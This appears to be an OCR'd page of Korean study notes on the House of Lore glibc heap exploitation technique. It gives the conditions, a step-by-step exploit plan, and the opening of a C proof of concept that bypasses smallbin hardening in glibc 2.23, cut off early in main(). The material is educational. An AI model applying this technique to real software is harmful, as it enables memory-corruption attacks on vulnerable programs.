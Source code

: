 # **The House of Lore**

## **Conditions**

* 할당받기 원하는 영역에 Fake Chunk 구조를 가지고 있어야 한다.
* 공격자에 의해 Small, Large Chunk 할당과 해제가 자유로워야 한다.
* 공격자에 의해 Freed Chunk의 bk 영역에 원하는 값을 저장할 수 있어야 한다.

## **Exploit Plan**

1. 공격 대상을 찾는다.
    * fake chunk 구조를 가지는 Memory 영역
    * fake chunk 구조를 저장할 수 있는 Memory 영여교
1. 다른 크기의 2개의 Heap 영역 할당
1. 첫 번째 chunk 해제
1. 해제된 첫 번째 chunk의 bk영역에 원하는 영역의 주소 값 저장
1. 두 번째 chunk보다 큰 chunk를 할당
    * 해제된 Small chunk를 Small bin에 등록하기 위함
1. 해제된 chunk와 동일한 크기의 heap을 2개 생성
    * 두 번째 할당된 heap의 영역은 fake chunk가 저장되었던 영역으로 할당된다.

## **Proof of Concept**

```c
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

void jackpot(){ puts("Nice jump d00d"); exit(0); }

int main(int argc, char * argv[]){


  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 14.04.4 - 32bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
  intptr_t *victim = malloc(100);
  fprintf(stderr, "Allocated the first small chunk on the heap at %p\n", victim);
```